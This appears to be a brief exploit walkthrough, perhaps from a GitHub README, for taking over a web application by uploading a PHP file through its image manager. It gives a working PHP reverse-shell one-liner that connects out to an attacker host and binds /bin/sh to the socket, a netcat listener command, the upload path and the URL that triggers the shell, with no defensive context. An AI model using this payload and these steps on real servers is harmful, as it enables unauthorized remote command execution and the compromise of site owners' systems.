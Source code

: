 ### Edit a reverse shell
```
<?php $sock=fsockopen("<lhost>",<lport>); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

### Start listener
```
nc -lvp <port>
```

### Upload php webshell
```
Tools > Image Manager > Choose File > Upload
```

### Use following path to trigger the shell
```
http://<rhost>/<path>/myFiles/images/<phpShell>  
```

